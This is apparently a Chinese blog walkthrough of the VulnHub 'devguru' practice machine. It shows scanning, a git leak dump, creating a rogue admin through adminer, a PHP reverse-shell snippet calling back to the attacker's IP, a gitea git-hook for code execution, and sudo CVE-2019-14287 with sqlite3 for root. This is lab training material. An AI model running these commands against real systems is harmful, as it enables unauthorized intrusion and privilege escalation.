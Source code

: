 ```yaml
---
title: 靶场实战：devguru
date: 2025-5-3 23:29:53
tags: 
-  linux提权
-  web渗透  
-  vulnhub靶场
category: 靶场实战
renderNumberedHeading: true
emoji: 🎇
color: 'var(--base0A)'
---
```


靶机地址[devguru](https://www.vulnhub.com/entry/devguru-1,620/)

## 信息收集

常规扫描

`sudo nmap 192.168.1.0/24 -sn`靶机发现192.168.1.138

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278830305.png)

`sudo nmap $ip -p- --min-rate=10000`端口扫描22,80,8585

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278873458.png)

`sudo nmap $ip -p$ports -sT -sC -sV -O -oA devguru/detail`细节扫描，tcp协议扫描对应端口，-sC使用默认脚本，-SV扫描版本信息，-O确定操作系统，-oA格式化输出

 ![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278893053.png)

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278903236.png)

80端口存在git泄露，8585端口运行了gitea

`sudo nmap -sU --top-ports 20 $ip -oA devguru/udp`扫描udp的常见端口，有时可以多指定一些端口

![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278926588.png)

目录扫描，有时一个工具没有收获可以多试试几个工具（如dirb，dirsearch，gobuster等）

80端口目录

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278960600.png)

8585端口的目录

![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278981133.png)

## 开始渗透

80端口存在git泄露，使用githack工具下载下来

`sudo python GitHack.py http://192.168.1.138`

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279056940.png)

重点查看配置相关文件

config下的database.php发现数据库信息

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279073567.png)

访问80端口的adminer.php发现是数据库管理

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279098699.png)

使用刚刚获取的信息登录

优先关注users等信息，只找到一个backend_users的表，此时有两个思路，1修改原来管理员的密码，危险程度较高，容易被发现，2是新建一个用户，危险程度较低，这里选择新建用户
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279119471.png)

最后is_superuser要设置为1，在用户组将我们新建的用户归类到管理员组

同时根据数据库加上80端口扫描的目录backend,访问并登录

登录之后在cms -add - code输入反弹shell的指令

```
function onStart(){
//nc监听7777端口
    $s   =fsockopen("192.168.1.114",5555);
    $proc=proc_open("/bin/sh -i", array(0=>$s, 1=>$s, 2=>$s),$pipes);
}
```

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279130337.png)

同时开启本地监听`nc -lvvp 5555`

访问/home1（新建网页名称）执行代码获取shell

成功拿到shell
![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279147662.png)

## 权限提升

### 获取高交互shell

使用`python3 -c 'import pty;pty.spawn("/bin/bash")'`获得交互更好的shell（使用什么版本的python主要看环境有什么版本）

读取/etc/passwd文件发现只有root和frank用户有/bin/bash即允许ssh且有高交互shell


尝试读取shadow文件权限不允许，通常shadow文件都是只有root用户有权限的，但是也不一定，如果可以读取就可以利用该文件进行hash碰撞

使用python启动一个快速http服务共享文件`python -m http.server`

使用wget下载linpeas.sh和LinEnum.sh

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279178588.png)

提升权限并运行脚本

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279195376.png)

suid不存在提权，看看sudo，需要密码，无法获得

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279207508.png)

查看备份文件
![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279217041.png)

### 获取普通用户

发现新的服务器连接
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279262092.png)

同样查看user，因为我们已经获取了web的权限，因此这里我们想要获取frank用户的权限，所以这里的选择是更改frank的密码
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279271344.png)

原来的gitea的加密方式是pbkdf2且有salt，我们选择换一个加密方式，bcrypt，使用网站实现（我这里尝试了几种方式，只有bcrypt可行，有的博客使用了原加密方式，但没说清楚salt值的获取）[在线Bcrypt密码生成工具-Bejson.com](https://www.bejson.com/encrypt/bcrpyt_encode/#google_vignette)

`$2a$10$sV1DF9po/5T1BE2dsy2OueGZ/VuPrUrwDR6aA88Ygu2gv6GPeGtzO`

结合目录扫描的结构gitea在8585端口
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279287060.png)

左下角显示gitea的版本是1.12.5

该版本存在以下漏洞

setting -> git hook输入命令

然后编辑 readme.md 随便编辑即可执行
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279380648.png)

成功拿到
![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279429126.png)

存在sqlite3无需密码使用
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279453993.png)

## sqlite3配合sudo漏洞提权

发现特权命令/usr/bin/sqlite3使用网站查找[GTFOBins](https://gtfobins.github.io/)

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279463974.png)

复制，执行，发现

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279479812.png)
![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279489723.png)

sudo的版本是1.8.21，存在一个[CVE-2019-14287：sudo权限绕过漏洞分析与复现 - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/217089.html)的漏洞

这里可以使用该漏洞配合sqlite3提权

`sudo -u#-1 sqlite3 /dev/null '.shell /bin/sh'`
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279496031.png)